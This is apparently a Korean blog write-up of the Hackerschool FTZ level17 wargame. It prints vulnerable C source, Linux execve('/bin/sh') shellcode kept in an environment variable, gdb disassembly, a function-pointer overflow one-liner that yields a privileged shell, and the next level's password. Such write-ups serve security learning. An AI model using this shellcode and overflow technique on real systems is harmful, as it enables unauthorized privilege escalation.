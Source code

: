 ```yaml
---
layout: post
title: "Hackerschool FTZ-level17"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/27
---
```

```bash
login as: level17 
level17@~~~~'s password: 
[level17@ftz level17]$ ls 
attackme  hint  public_html  tm~~~
[level17@ftz level17]$ cat hint 

#include  <stdio.h>

void printit() { 
  printf("Hello there!\n"); 
} 

main() 
{ int crap; 
  void (*call)()=printit; 
  char buf[20]; 
  fgets(buf,48,stdin); 
  setreuid(3098,3098); 
  call(); 
} 

[level17@ftz level17]$
```


level17/king poetic으로 접속하자.

이번엔 shell 함수가 없다.

없으면 우리가 직접 만들어 줘야지, 뭐.

환경변수 등록부터 가자.


```bash
export code=$(python -c 'print"\x90"*100+"\x31\xc0\x31\xdb\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```

주소도 알아내자.


```bash
[level17@ftz level17]$ cd /tmp 
[level17@ftz tmp]$ vi find.c 
[level17@ftz tmp]$ cat find.c 
#include <stdio.h>
int main() 
{ 
        printf("%x\n",getenv("code")); 
}

level17@ftz tmp]$ gcc -o find find.c 
[level17@ftz tmp]$ [level17@ftz tmp]$ ./find 
bfffff29 
[level17@ftz tmp]$ 
```



환경변수의 주소값 : bfffff29

이제 gdb 분석을 해보자.


```bash
[level17@ftz level17]$ gdb -q attackme 
(gdb) set disassembly-flavor intel 
(gdb) disas main 
Dump of assembler code for function main: 
0x080484a8 <main+0>:    push   ebp 
0x080484a9 <main+1>:    mov    ebp,esp 
0x080484ab <main+3>:    sub    esp,0x38 
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490 
0x080484b5 <main+13>:   sub    esp,0x4 
0x080484b8 <main+16>:   push   ds:0x804967c 
0x080484be <main+22>:   push   0x30 
0x080484c0 <main+24>:   lea    eax,[ebp-56] 
0x080484c3 <main+27>:   push   eax 
0x080484c4 <main+28>:   call   0x8048350  <fgets>
0x080484c9 <main+33>:   add    esp,0x10 
0x080484cc <main+36>:   sub    esp,0x8 
0x080484cf <main+39>:   push   0xc1a 
0x080484d4 <main+44>:   push   0xc1a 
0x080484d9 <main+49>:   call   0x8048380  <setreuid>
0x080484de <main+54>:   add    esp,0x10 
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16] 
0x080484e4 <main+60>:   call   eax 
0x080484e6 <main+62>:   leave 
0x080484e7 <main+63>:   ret 
0x080484e8 <main+64>:   nop
```


저번의 코드와 거의 같다.

main+6에서 check에게 주소값을 부여한다.

check 주소 : ebp-16

main+24에서 gets에게 buf를 준다.

buf 주소 : ebp-56

buf - check = 40이므로 아무런 값 40개와 환경변수의 주소를 넣으면 될 것이다.


```bash
[level17@ftz level17]$ (python -c 'print"\x90"*40+"\x29\xff\xff\xbf"';cat)|./attackme 
whoami 
level18 
my-pass 
TERM environment variable not set. 

Level18 Password is "why did you do it". 
```




성공했다.

이제 FTZ의 끝이 거의 보인다.

level18's password:"why did you do it"